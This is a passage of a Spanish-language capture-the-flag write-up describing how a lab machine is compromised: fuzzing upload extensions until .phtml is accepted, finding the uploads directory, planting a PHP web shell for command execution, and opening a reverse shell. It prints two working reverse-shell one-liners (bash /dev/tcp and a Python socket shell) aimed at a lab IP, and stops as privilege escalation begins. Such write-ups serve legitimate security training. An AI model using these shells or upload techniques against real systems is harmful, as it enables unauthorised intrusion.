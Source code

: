 ![10]

Si lanzamos el ataque, veremos que solo una extensión devuelve un **Success** como respuesta del lado del servidor, y es la extensión **phtml**.

![11]

El objetivo ahora es saber en dónde se almacenó ese archivo de prueba que enviamos, por lo que realizamos un nuevo escaneo; solo que ahora, dicho fuzzing se realizará dentro del nuevo directorio **internal**.

![12]

Es evidente que el directorio **uploads** debe contener nuestro archivo, por lo que accedemos a él a través de un navegador y nos encontramos lo siguiente:

![13]

# Acceso al sistema
Para este punto, ya tenemos una forma de subir archivos al sistema y de acceder a ellos. Es evidente que el siguiente paso es subir una reverse shell y ganar acceso inicial al sistema. Para ello, empleamos el siguiente código en php (recordando que el archivo debe tener extensión **phtml**).

![14]

Este código nos permitirá ejecutar RCE en la máquina víctima por medio del parámetro **cmd**. Si subimos el archivo y accedemos a él, enviando como comando de prueba un **whoami** veremos lo siguiente:

![15]

Como podemos apreciar, ya tenemos ejecución remota de comandos en el sistema, solo necesitamos ponernos a la escucha con **netcat** y entablar una reverse shell. Se intentó primero con el siguiente comando:

	bash -i >& /dev/tcp/10.10.51.182/443 0>&1
	
Sin embargo, no funcionó. Entonces, se intentó con la versión de python:

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.51.182",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Esta sí nos devolvió la conexión y ya hemos ganado acceso al sistema.

![16]

# Escalada de privilegios
Lo primero que siempre se debe hacer al haber ganado acceso por medio de una reverse shell es un tratamiento de la TTY para evitar perder la conexión por un atajo de teclado no intencionado (CTRL+C). Para ello, escribimos el siguiente comando:
